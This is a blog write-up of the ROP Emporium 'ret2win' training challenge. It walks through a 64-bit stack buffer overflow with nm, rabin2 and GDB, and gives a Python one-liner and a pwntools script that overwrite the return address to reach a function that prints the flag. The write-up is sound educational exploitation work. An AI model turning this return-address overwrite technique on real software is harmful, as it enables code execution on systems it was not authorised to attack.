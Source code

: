 ```yaml
---
layout: single
title: "RopEmporium - Ret2win"
---
```


I recently came across Rop Emporium and I thought I'd give it a go and post my progress! Let's jump in...

All the challenges are hosted on the website [here](https://ropemporium.com/), there is also a guide with plenty of useful information, tools and techniques that can be used during the challenges.

# ret2win

The description for ret2win starts with "ret2win means 'return here to win'" - sounds simple, right?

Running the binary it mentions trying to fit 56 bytes into 32 bytes of stack buffer, what's the problem with this? We know that the stack grows down from higher addresses to lower addresses, and when a function prolog occurs, space is reserved on the stack for local variables, in this case only 32 bytes.

![alt text](https://ben0.github.io/assets/images/ret2win-intro.PNG "Running the binary ret2win")

Let's try with 48 characters...

![alt text](https://ben0.github.io/assets/images/ret2win-overflow.PNG "Overflowing the buffer")

We overflowed the buffer and caused the binary to segfault. Why? The call to read() accepts upto 56 bytes, which is 24 more than the 32 bytes of variable space allocated. Our input is accepted pushing the data onto the stack, the 'pwnme' function wraps up, then the return instruction then pops the next 8 bytes off the stack which is 'AAAAAAAA', because this isn't a valid memory address, it segfaults.

When the read() function stores the data on the stack, it begins at the lowest address and works up to the highest address, and if the input data exceeds the space allocated to the variable, then any data on the stack such as saved registers, or return pointers will be overwritten...

Before we move on it's handy to enumerate the binary, we'll use `NM` to understand the symbols or functions within the binary, and `Rabin2` to see what mitigations are enabled.

![alt text](https://ben0.github.io/assets/images/ret2win-nm.PNG "Symbols within the binary")

![alt text](https://ben0.github.io/assets/images/ret2win-rabin2.PNG "Mitigations")

Within the binary there are a few functions, including one called `ret2win` at address `0x0000000000400756`. This function contains a `mov edi,0x400943` instruction, then a `call 400560 <system@plt>`, lets see what string is being moved into the EDI register from address `0x400983` - Rabin2 is great for analysing strings in binaries.

![alt text](https://ben0.github.io/assets/images/ret2win-objdump-ret2win.PNG "Ret2win function disassembled")

![alt text](https://ben0.github.io/assets/images/ret2win-rabin2-strings.PNG "Strings within the binary")

Our objective is to overwrite the return address from pwnme to jump to the symbol `ret2win` rather than jumping back to `main`, then ret2win will execute the command `/bin/cat flag.txt`.

## Exploit

Using GDB it's easy to debug the binary, and experiment with different payloads to understand what's happening.

What we know:

- It's 64bit
- The buffer is 32 bytes and `read()` accepts 56 bytes, meaning a stack overflow can occur
- ASLR is disabled (PIC), the adddresses of our symbols will be the same every time the binary is run

Fire up GDB with the binary, set a breakpoint on the address of pwnme with `break *pwnme`, and run the binary with the command `run < <(python -c "print 'A' * 32 + 'B' * 8 + 'C' * 8")`, then step through a few instructions and we're at the `ret` instruction the which will pop the next address off the stack and try and jump to it.

In the screenshot we can the top of the stacking is pointing `CCCCCCCC` or `0x4343434343434343`, this will be popped off the stack into RIP and executed, though this time it'll segfault. But we know that whatever is in those 41-48 bytes will end up in the instruction register.

![alt text](https://ben0.github.io/assets/images/ret2win-gdb-pwnme.PNG "Pwnme function - GDB")

### Method 1 - Python

`python -c "print 'A' * 32 + 'B' * 8 + '\x00\x00\x00\x00\x00\x40\x07\x56'[::-1]" | ./ret2win`

![alt text](https://ben0.github.io/assets/images/ret2win-method1.PNG "Using Python to win")

### Method 2- Pwntools

```
from pwn import *

context.arch = 'amd64'

elf = ELF("ret2win")

pwnme_symbol = p64(elf.symbols["ret2win"])

payload = b"a" * 40
payload += pwnme_symbol

io = elf.process()
io.sendline(payload)
data = io.recvall()
print(data)
```

![alt text](https://ben0.github.io/assets/images/ret2win-method1.PNG "Using Pwntools to win")
